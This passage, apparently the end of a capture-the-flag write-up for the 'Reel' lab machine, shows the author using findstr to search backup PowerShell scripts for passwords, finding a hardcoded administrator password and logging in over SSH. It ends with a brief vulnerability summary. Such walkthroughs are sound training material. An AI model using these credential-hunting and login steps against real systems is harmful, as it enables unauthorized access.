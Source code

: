 ```
11/03/2017  11:22 PM               308 test2.ps1.txt                                                                            
               6 File(s)         11,903 bytes                                                                                   
               2 Dir(s)  15,594,967,040 bytes free
```

My initial thought is to search for passwords in these scripts and what looks to be the administrator is revealed

```
claire@REEL C:\Users\Administrator\Desktop\Backup Scripts>findstr /si password *.ps1                                            
BackupScript.ps1:# admin password                                                                                               
BackupScript.ps1:$password="Cr4ckMeIfYouC4n!"
```

I attempt to SSH into the administrator user with these credentials and gain administrator access

```
┌──[Thu Nov 10 01:50:51 PM CST 2022]-[TheScriptKid]-[/tmp]
├──[wlan0: 192.168.1.153]-[tun0: 10.10.16.2]-[ip: 10.129.15.19]
└──# ssh administrator@10.129.47.91
administrator@10.129.47.91's password: 

Microsoft Windows [Version 6.3.9600]                                                                                            
(c) 2013 Microsoft Corporation. All rights reserved.                                                                            

administrator@REEL C:\Users\Administrator>
```



**Vulnerability Exploited: Insecure Access Control Lists**

**Vulnerability Explanation:** W**eak permissions of Active Directory Discretionary Access Control Lists (DACLs) and Acccess Control Entries (ACEs) that make up DACLs.**

**Vulnerability Fix: Remove Unesescary Permissions To Prevent Compromise**

**Severity: Critical**

**Proof Screenshot Here:**
